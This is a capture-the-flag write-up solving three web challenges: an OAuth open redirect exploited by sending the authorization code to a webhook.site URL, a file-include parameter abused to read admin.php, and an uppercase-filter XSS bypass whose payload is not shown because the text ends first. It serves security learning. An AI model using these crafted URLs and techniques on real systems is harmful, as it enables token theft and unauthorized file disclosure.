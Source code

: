 2 pages, if we authorize there is a link to redirect:
https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/TheConsumerRightsAssociation/api/token.php&state=96d0b56145cf1e8b9239112d365ce330

Not sure if this is a giveaway flag but the hint say use webhook, so i just use webhook with the above url and craft the url with the redirect_uri:

https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://webhook.site/yourwebhook

And boom, we got the flag, honestly no idea ...

> 	MetaCTF{maybe_allowing_you_to_go_anywhere_wasnt_such_a_good_idea}

# Silly HR

Submit any application and inspect the shown page, the resume is load through an iframe with the below url:

`http://host1.metaproblems.com:4725/?m=resume.php&f=/uploads/327912300.pdf`

Now try changing the file name to the index:

`http://host1.metaproblems.com:4725/?m=resume.php&f=index.php`

Note that it does now show anything, but we should download the file and rename it to something .php and we can view the source code.

In the index.php we will see there is a child folder for all module /app

So we craft the final link to view the admin:

`http://host1.metaproblems.com:4725/?m=resume.php&f=/app/admin.php`

And we get the flag:

> MetaCTF{ugh_why_all_of_my_file_upload_implementations_are_so_vulnerable}

# ACMECorp

There are 3 pages, 1 to submit, 1 to view previous one and 1 to request admin to view. We can see it's XSS.

On the submit page, tried all the posibilities for xss injection but all string are not being submitted, and sometimes they are being capitalized.

By searching the dork uppercase we found the solution in the 3rd result:
`https://duckduckgo.com/?q=xss+bypass+uppercase&t=h_&ia=web`

Here is the explanation of the bypass:
`https://security.stackexchange.com/questions/145716/xss-bypass-strtoupper-htmlspecialchars`

Note that it does not work since we need to mouse-hover the field. We need to use `onfocus` and `autofocus`. So our payload should be:
